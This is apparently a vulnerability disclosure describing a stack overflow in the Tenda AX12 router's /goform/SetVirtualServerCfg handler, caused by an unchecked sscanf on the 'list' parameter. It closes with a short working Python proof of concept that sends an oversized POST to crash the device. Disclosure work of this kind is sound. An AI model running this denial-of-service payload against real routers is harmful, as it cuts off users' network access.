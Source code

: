 Affect device: Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetVirtualServerCfg` page which influences the lastest version of Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

There is a stack overflow vulnerability in the `sub_42DE00` function.

First, this function calls the `sub_42DB88` function.

![image-20220209184332117](image/1.png)

In the `sub_42DB88` function:

![image-20220209184425282](image/2.png)

The `v3` variable is obtained directly from the http request parameter `list`.

Then `v3` will be splice to stack by function `sscanf` without any security check, which causes stack overflow.

So by POSTing the page `/goform/SetVirtualServerCfg` with long `list`, the attacker can easily perform a Denial of Service(DoS).

# POC

Poc of Denial of Service(DoS):

```python
import requests

url = "http://192.168.0.1/goform/SetVirtualServerCfg"
list_data = 'a'*0x1000 + '~'

r = requests.post(url, data={'list': list_data})
print(r.content)
```

